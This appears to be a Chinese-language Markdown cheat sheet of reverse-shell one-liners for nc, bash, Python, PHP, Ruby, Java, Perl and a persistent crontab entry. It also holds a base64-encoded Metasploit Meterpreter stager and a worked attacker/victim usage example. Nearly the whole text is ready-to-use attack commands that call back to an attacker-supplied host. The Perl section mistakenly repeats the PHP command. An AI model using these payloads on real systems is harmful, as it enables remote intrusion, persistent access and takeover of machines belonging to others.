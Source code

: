 #### nc版本
```bash
正常nc版：
nc -e /bin/sh <your_ip> <your_post>

不使用-e版:
mknod backpipe p && nc <your_ip> <your_post> 0<backpipe | /bin/bash 1>backpipe

netcat-openbsd版本:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <your_post> >/tmp/f
```

#### bash版本
```bash
bash -i >& /dev/tcp/<your_ip>/<your_post> 0>&1
```
#### python版本
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_post>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

另外的形式：
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"

Metasploit 版的代码：
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.168.90.1 LPORT=<your_post>
import base64; exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsMSkKcy5jb25uZWN0KCgnMTkyLjE2OC45MC4xJywxMjM0KSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdig0MDk2KQp3aGlsZSBsZW4oZCkhPWw6CglkKz1zLnJlY3YoNDA5NikKZXhlYyhkLHsncyc6c30pCg=='))

```
#### php版本
```php
php -r '$sock=fsockopen("<your_ip>",<your_post>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### ruby版本
```ruby
ruby -rsocket -e'f=TCPSocket.open("<your_ip>",<your_post>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#### Java版本
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<your_ip>/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### perl版本
```perl
php -r '$sock=fsockopen("<your_ip>",<your_post>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### crontab 定时任务版：
```bash
 * * * * * /bin/bash -i >& /dev/tcp/<your_ip>/<your_post> 0>&1

```
 
虽然形式不同，但都是基于 / bin/bash 和 / bin/sh

## 使用实例:
攻击机运行: 
```
nc -v -l -p 9999
```

靶机运行：
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机ip",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](http://www.asec.me/wp-content/uploads/2017/10/39dfcc77136ff4aab8ab83a491b48060.png)
## 参考:
[Linux反弹shell的10种姿势](https://masterxsec.github.io/2017/07/21/Linux%E5%8F%8D%E5%BC%B9shell%E7%9A%8410%E7%A7%8D%E5%A7%BF%E5%8A%BF/)
[各种环境下反弹 shell 的方法](http://www.zerokeeper.com/experience/a-variety-of-environmental-rebound-shell-method.html)

